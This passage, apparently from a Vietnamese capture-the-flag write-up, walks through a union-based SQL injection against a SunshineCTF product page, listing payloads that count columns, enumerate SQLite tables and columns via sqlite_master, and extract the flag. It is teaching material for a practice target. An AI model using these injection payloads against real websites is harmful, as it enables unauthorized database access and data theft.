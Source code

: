     - Kết quả trả về cho thấy sự tồn tại của một bảng có tên là **`flag`**.
4. **Tìm tên cột (Column Enumeration):**
    - Khi đã có tên bảng, chúng ta tiếp tục truy vấn `sqlite_master` để lấy câu lệnh `CREATE TABLE` từ cột `sql`. Điều này sẽ tiết lộ cấu trúc và tên các cột của bảng `flag`.
    - **Payload:** `product_id=-1 UNION SELECT 1,sql,3,4 FROM sqlite_master WHERE name='flag'--`
    - Kết quả cho thấy cấu trúc `CREATE TABLE flag (..., flag TEXT, ...)` , xác nhận có một cột tên là **`flag`**.
5. **Trích xuất Flag:**
    - Với tên bảng và tên cột đã biết, bước cuối cùng là truy vấn trực tiếp để lấy nội dung của cột `flag` từ bảng `flag`.
    - **Payload:** `product_id=-1 UNION SELECT 1,flag,3,4 FROM flag--`
    - Payload này sẽ hiển thị giá trị của flag ngay trên trang web.

---

## Kịch bản khai thác (Exploit Payloads)

Dưới đây là chuỗi các URL được sử dụng để khai thác lỗ hổng từng bước một.

1. **Kiểm tra lỗ hổng:**
    
    ```
    <https://meteor.sunshinectf.games/product?product_id=1>'
    ```
    
    <img width="834" height="313" alt="image" src="https://github.com/user-attachments/assets/2e523aca-844d-49b3-ba50-75083a2a976f" />

    
2. **Tìm số cột:**
    
    ```
    <https://meteor.sunshinectf.games/product?product_id=1> ORDER BY 5--
    
    ```
    
    <img width="894" height="335" alt="image" src="https://github.com/user-attachments/assets/19fe1774-44b1-4d2d-a0cd-508ac195435d" />

    
3. **Tìm tên bảng `flag`:**
    
    ```
    <https://meteor.sunshinectf.games/product?product_id=-1> UNION SELECT 1,name,3,4 FROM sqlite_master WHERE type='table'--
    ```
    
    <img width="1196" height="283" alt="image" src="https://github.com/user-attachments/assets/9afc3452-df96-4c3b-96d1-7259bacf2b6a" />

    
4. **Tìm tên cột `flag`:**
    
    ```
    <https://meteor.sunshinectf.games/product?product_id=-1> UNION SELECT 1,sql,3,4 FROM sqlite_master WHERE name='flag'--
    
    ```
    
    <img width="1196" height="283" alt="image" src="https://github.com/user-attachments/assets/9e439b4b-7699-4c1b-8d4b-8d08abcd1281" />
